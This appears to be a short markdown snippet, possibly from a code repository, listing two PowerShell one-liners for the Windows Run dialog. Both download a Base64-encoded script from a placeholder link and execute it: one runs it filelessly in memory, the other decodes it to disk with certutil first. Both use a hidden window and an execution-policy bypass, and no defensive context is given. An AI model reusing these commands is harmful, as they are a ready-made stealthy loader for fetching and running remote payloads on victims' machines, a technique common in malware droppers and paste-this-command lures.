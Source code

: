 ## Execute fileless Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass &([scriptblock]::Create([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String((irm LINK)))))
```

## Download and execute Base64 encoded script from Run Dialog:

```powershell
powershell -NoP -W H -Ep Bypass irm LINK -O $env:USERPROFILE\e.txt;certutil -f -decode $env:USERPROFILE\e.txt $env:USERPROFILE\d.ps1;iex $env:USERPROFILE\d.ps1
```
